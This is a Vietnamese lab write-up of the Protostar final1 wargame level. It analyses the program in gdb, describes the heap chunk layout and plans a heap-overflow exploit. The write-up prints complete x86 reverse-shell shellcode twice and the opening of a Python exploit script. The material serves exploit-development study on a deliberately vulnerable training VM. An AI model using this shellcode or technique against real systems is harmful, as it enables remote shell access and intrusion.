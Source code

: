 ## Phân tích chương trình
Dùng gdb để debug final1:
- set follow-fork-mode child
- set disassembly-flavor intel

Dùng ```nc 127.0.0.1 2993``` để connect tới server, gửi thử 3 đoạn string đạt yêu cầu của chương trình:
```
user@protostar:~$ nc 127.0.0.1 2993
FSRDaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa/ROOTaaaaaaaaaaaFSRDaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa/ROOTaaaaaaaaaaaFSRDaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa/ROOTaaaaaaaaaaa
```

Quan sát gdb ở sau hàm calloc và ở hàm free, =>:
- Tuy source code có vấn đề (địa chỉ trả về của hàm calloc không được lưu trong mảng destroylist) nhưng file thực thi vẫn free đúng:

<img src="pictures/free.png">

- Mỗi chunk có kích thước 0x88 bytes, bao gồm:
  - 0x8 bytes metadata
  - 0x80 (128) bytes data

## Exploit

Sử dụng kĩ thuật heap overflow như trong [heap3](https://gitlab.com/cs_hoang_hai_long/week9/-/tree/main/protostar/heap/heap3)
  
Sử dụng shellcode reversed shell như final0:
```
shellcode = "\x31\xc0\x31\xdb\x50\x40\x50\x40\x50\x89\xe1\xb0\x33\x04\x33\x43\xcd\x80\x89\xc6\x31\xc0\x50\xc6\x04\x24\x7f\xc6\x44\x24\x03\x01\x66\x68\x11\x5c\x43\x66\x53\x89\xe1\xb0\x33\x04\x33\x50\x51\x56\x89\xe1\x43\xcd\x80\x31\xd2\x87\xca\xb1\x03\x89\xf3\x31\xc0\xb0\x3f\x49\xcd\x80\xb0\x3f\x49\xcd\x80\xb0\x3f\x49\xcd\x80\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x51\x89\xe1\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"
```
Để shellcode ở chunk đầu tiên, dịch phải 8 bytes(tránh bị ghi đè khi free), => địa chỉ shellcode là 0x804e010 (0x0804e008 + 8):
```
import socket
import struct

shellcode = "\x31\xc0\x31\xdb\x50\x40\x50\x40\x50\x89\xe1\xb0\x33\x04\x33\x43\xcd\x80\x89\xc6\x31\xc0\x50\xc6\x04\x24\x7f\xc6\x44\x24\x03\x01\x66\x68\x11\x5c\x43\x66\x53\x89\xe1\xb0\x33\x04\x33\x50\x51\x56\x89\xe1\x43\xcd\x80\x31\xd2\x87\xca\xb1\x03\x89\xf3\x31\xc0\xb0\x3f\x49\xcd\x80\xb0\x3f\x49\xcd\x80\xb0\x3f\x49\xcd\x80\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x51\x89\xe1\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"
```